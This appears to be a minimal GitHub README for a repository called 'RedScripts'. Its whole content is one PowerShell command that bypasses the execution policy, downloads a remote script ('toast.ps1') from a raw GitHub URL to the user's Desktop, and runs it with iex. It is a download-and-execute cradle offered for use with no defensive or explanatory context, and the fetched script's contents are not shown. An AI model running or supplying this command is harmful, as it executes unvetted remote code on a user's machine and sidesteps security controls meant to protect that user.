 # RedScripts


'''
powershell.exe -ExecutionPolicy Bypass -NoExit (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/sdd4181/RedScripts/main/toast.ps1', 'C:\Users\\%USERNAME%\Desktop\script1.ps1'); iex 'C:\Users\\%USERNAME%\Desktop\script1.ps1'
'''
